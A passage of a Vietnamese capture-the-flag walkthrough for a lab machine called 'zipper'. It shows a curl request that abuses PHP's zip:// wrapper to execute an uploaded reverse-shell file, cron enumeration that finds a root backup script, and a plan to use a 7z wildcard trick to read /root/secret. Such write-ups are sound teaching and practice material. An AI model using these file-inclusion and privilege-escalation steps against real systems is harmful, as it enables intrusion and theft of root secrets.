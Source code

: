 File này chỉ có chức năng đơn giản là đóng zip các file được upload lên.

Vì đây là PHP, và còn đang hỗ trợ các wrapper, ta có thể sử dụng cách tương tự như cách lấy các file .php ở trên với wrapper `zip://path/to/.zip%23/path/to/outfile`

Trước tiên, upload file revshell đã chuẩn bị sẵn và lấy url của file zip được tạo:

![](https://i.imgur.com/YIYUu5N.png)

Ta thấy file zip được đặt ở `uploads/upload_1666058413.zip`, bây giờ tiến hành RCE:

```console 
$ curl 'http://192.168.205.229/index.php?file=zip://uploads/upload_1666058413.zip%23revshell'
```

![](https://i.imgur.com/gIFrX4k.png)

### 2. PrivEsc

Enum thì ra được một crontab khá khả thi:

```console 
www-data@zipper:/$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/backup.sh
```

Check quyền và nội dung file `/opt/backup.sh`:

```console
www-data@zipper:/$ ls -l /opt/backup.sh
-rwxr-xr-x 1 root root 153 Aug 12  2021 /opt/backup.sh

www-data@zipper:/$ cat /opt/backup.sh
#!/bin/bash
password=`cat /root/secret`
cd /var/www/html/uploads
rm *.tmp
7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.log
```

Ta thấy cronjob này sẽ tạo 1 file `/opt/backups/backup.zip` từ những gì ta đã upload với password lấy từ `/root/secret` và log file là `/opt/backups/backup.log`

Ta có thể thực hiện "[Wildcard Spare trick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#7z)" để đọc file `/root/secret`.

